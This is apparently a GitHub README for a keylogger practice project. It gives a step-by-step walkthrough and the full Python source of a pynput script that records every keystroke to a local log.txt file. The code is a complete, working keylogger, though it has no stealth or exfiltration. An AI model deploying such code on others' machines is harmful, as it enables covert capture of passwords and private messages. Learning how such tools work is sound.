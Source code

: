 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script is a simple keylogger that captures every key press, and records them in a text file called "log.txt". It imports the necessary modules from the pynput library, which allows it to listen to keyboard inputs. The script defines a function on_press which is called every time a key is pressed. In the function, it first tries to get the character of the key pressed, if it fails it checks if the key pressed is a space, if it is a space it assigns current_key as a space otherwise it assigns current_key as " + str(key) + " ". Then it appends the current key to a global variable called log. It then opens the "log.txt" file, which is created if it does not exist, and writes the key presses to the file. The script starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.
<br />


<h2>Environments Used </h2>

- <b>Windows 11</b>

<h2>Program Walkthough:</h2>

<b>This first block imports the necessary modules from the pynput library. The pynput library allows for control and monitoring of keyboard and mouse inputs.</b>

```python
import pynput
from pynput import keyboard
```
<b>This block defines the on_press function which will be called every time a key is pressed. The function takes in a key argument which is the key that was pressed. The function first tries to get the char attribute of the key which will give the character representation of the key. If this fails, it means that the key pressed is not a character, so it checks if it's a space and assigns the value " " to the current_key variable. If it's not a space it assigns the key name to the current_key variable.</b>

```python
# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
```            
<b>This line appends the current key to a global variable named log. This variable stores all the keys pressed.</b>

```python
 # append the current key to a global variable storing the log
    log.append(current_key)
```

<b>This block writes the contents of the log variable to a file named "log.txt". It opens the file in write mode, and for each key stored in the log variable, it removes the single quotes from the key and checks if the key is a space or not. If it's a space, it writes a space to the file. If it's not a space, it writes the key to the file.</b>

```python
 # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)
```

<b>This block starts the keylogger by initializing an empty log list, and creates a keyboard listener that calls the on_press function whenever a key is pressed. The listener is joined so that the script waits for key presses and continues to run until it is interrupted.</b>

```python
# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```    

<b> The final result should look like this:</b>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

